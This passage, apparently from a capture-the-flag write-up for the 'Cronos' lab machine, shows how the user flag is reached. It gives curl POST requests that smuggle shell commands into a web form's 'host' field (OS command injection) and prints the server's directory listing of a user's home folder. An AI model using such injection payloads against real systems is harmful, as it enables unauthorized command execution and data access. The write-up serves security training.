 ### User flag

From there, we play a bit with cURL:

```
curl -X POST http://admin.cronos.htb/welcome.php -d "command=traceroute&host=127.0.0.1+%26+ls+/home"
```

and we discover user `noulis`.

We can enumerate noulis home directory content:

```
curl -X POST http://admin.cronos.htb/welcome.php -d "command=traceroute&host=127.0.0.1+%26+ls+-la+/home/noulis/"


<html">

   <head>
      <title>Net Tool v0.1 </title>
   </head>

   <body>
        <h1>Net Tool v0.1</h1>
        <form method="POST" action="">
        <select name="command">
                <option value="traceroute">traceroute</option>
                <option value="ping -c 1">ping</option>
        </select>
        <input type="text" name="host" value="8.8.8.8"/>
        <input type="submit" value="Execute!"/>
        </form>
                        total 44<br>
                drwxr-xr-x 4 noulis noulis 4096 Apr  9  2017 .<br>
                drwxr-xr-x 3 root   root   4096 Mar 22  2017 ..<br>
                -rw------- 1 root   root      1 Dec 24  2017 .bash_history<br>
                -rw-r--r-- 1 noulis noulis  220 Mar 22  2017 .bash_logout<br>
                -rw-r--r-- 1 noulis noulis 3771 Mar 22  2017 .bashrc<br>
                drwx------ 2 noulis noulis 4096 Mar 22  2017 .cache<br>
                drwxr-xr-x 3 root   root   4096 Apr  9  2017 .composer<br>
                -rw------- 1 root   root    259 Apr  9  2017 .mysql_history<br>
                -rw-r--r-- 1 noulis noulis  655 Mar 22  2017 .profile<br>
                -rw-r--r-- 1 root   root     66 Apr  9  2017 .selected_editor<br>
                -rw-r--r-- 1 noulis noulis    0 Mar 22  2017 .sudo_as_admin_successful<br>
                -r--r--r-- 1 noulis noulis   33 Mar 22  2017 user.txt<br>
                      <p><a href = "logout.php">Sign Out</a></p>
   </body>

</html>
```

and we can grab flag:
